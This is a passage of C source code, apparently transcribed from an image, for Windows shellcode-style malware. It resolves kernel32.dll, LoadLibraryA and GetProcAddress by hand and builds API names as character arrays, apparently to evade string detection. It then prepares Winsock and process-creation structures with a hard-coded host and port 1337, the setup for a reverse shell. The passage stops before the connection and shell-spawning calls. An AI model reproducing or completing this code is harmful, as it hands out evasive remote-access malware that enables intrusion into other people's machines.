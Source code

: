 inline LPVOID get_module_by_name( wchar_t* module_name );
inline LPVOID get_func_by_name( LPVOID module, char* function_name );

int main( void )
{
    wchar_t kernel32dll[] = { 'k', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    LPVOID kernel32dll_base = get_module_by_name( kernel32dll );

    if( NULL == kernel32dll_base )
    {
        // printf( "[!] Could not find kernel32.dll!\n" );
        return 1;
    }

    // printf( "[+] Successfully found kernel32.dll!\n" );

    // 
    // Get GetProcAddress
    // 
    char get_proc_addr[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '\0' }; 

    LPVOID getprocaddress_addr = get_func_by_name( kernel32dll_base, get_proc_addr );
    if( NULL == getprocaddress_addr )
    {
        // printf( "[!] Could not find function! Exiting!\n" );
        return 1;
    }
    // printf( "[+] Found GetProcAddress!\n" );

    // 
    // Get LoadLibraryA
    //    
    char load_library[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };    
    LPVOID loadlibrarya_addr = get_func_by_name( kernel32dll_base, load_library );
    if( loadlibrarya_addr == NULL )
    {
        // printf( "[!] Could not find function! Exiting!\n" );
        return 1;
    }
    // printf( "[+] Found LoadLibraryA!\n" );

    //
    // Dynamically resolve LoadLibraryA/GetProcAddress
    //
    HMODULE( WINAPI * _LoadLibraryA )( LPCSTR lpLibFileName )                = ( HMODULE(WINAPI*)(LPCSTR))loadlibrarya_addr;
    FARPROC( WINAPI * _GetProcAddress)( HMODULE hModule, LPCSTR lpProcName ) = ( FARPROC (WINAPI*)(HMODULE, LPCSTR))getprocaddress_addr;

    if( NULL == _LoadLibraryA && NULL == _GetProcAddress)
    {
        // printf( "[!] LoadLibraryA or GetProcAddress could not be resolved!\n" );
        return 1;
    }

    //
    // Initialize structs and variables needed to make a connection
    // 
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in hax;
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;

    char host[] = { '1', '9', '2', '.', '1', '6', '8', '.', '1', '.', '1', '\0' };
    short port = 1337;
